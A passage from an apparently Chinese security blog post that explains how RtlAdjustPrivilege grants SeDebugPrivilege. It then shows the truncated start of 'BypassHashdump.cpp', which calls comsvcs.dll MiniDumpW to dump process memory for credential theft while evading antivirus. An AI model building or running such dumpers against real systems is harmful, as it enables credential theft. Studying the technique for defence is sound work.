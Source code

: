 而权限提升可以使用`RtlAdjustPrivilege`来进行，这个函数封装在`NtDll.dll`中

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0170aa44142dc1ac1a.png)

下图是找到的定义和解释:

[![](https://p2.ssl.qhimg.com/t0145cf03f54f6d998b.png)](https://p2.ssl.qhimg.com/t0145cf03f54f6d998b.png)

参数的含义：

```
Privilege [In] Privilege index to change.                        
// 所需要的权限名称，可以到 MSDN 查找关于 Process Token &amp; Privilege 内容可以查到

Enable [In] If TRUE, then enable the privilege otherwise disable.
// 如果为True 就是打开相应权限，如果为False 则是关闭相应权限

CurrentThread [In] If TRUE, then enable in calling thread, otherwise process.
// 如果为True 则仅提升当前线程权限，否则提升整个进程的权限

Enabled [Out] Whether privilege was previously enabled or disabled.
// 输出原来相应权限的状态（打开 | 关闭）, 注意：该参数赋予空指针会出错
```

具体有关该函数的实现可以参考这篇文章:<br>[https://bbs.pediy.com/thread-76552.htm](https://)

总而言之这个函数能够做的事就是可以将进程赋予**SeDebugPrivilege权限**以此来Dump内存文件

因此借鉴下国外作者的原版代码:

```
// BypassHashdump.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#define UNICODE //使用UNICODE 对应main函数就是wmain
#include &lt;Windows.h&gt;
#include &lt;stdio.h&gt;


typedef HRESULT(WINAPI* _MiniDumpW)(
    DWORD arg1, DWORD arg2, PWCHAR cmdline
    );

typedef NTSTATUS(WINAPI* _RtlAdjustPrivilege)(
    ULONG Privilege, BOOL Enable, BOOL CurrentThread, PULONG Enabled
    );
// "&lt;pid&gt; &lt;dump.bin&gt; full"
int wmain(int argc, wchar_t* argv[]) `{`
    HRESULT hr;
    _MiniDumpW MiniDumpW;
    _RtlAdjustPrivilege RtlAdjustPrivilege;
    ULONG t;
    //从comsvcs.dll中获得MiniDunpw导出函数
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    //从NTdll中获得RtlAdjustPrivilege导出函数用户提权
    RtlAdjustPrivilege = (_RtlAdjustPrivilege)GetProcAddress(LoadLibrary(L"ntdll.dll"), "RtlAdjustPrivilege");
    if (MiniDumpW == NULL) `{`
        printf("Unable to resolve COMSVCS!MiniDumpW.\n");
        return 0;
    `}`

    if (RtlAdjustPrivilege == NULL) `{`
        printf("Unable to resolve RtlAdjustPrivilege.\n");
        return 0;
    `}`
```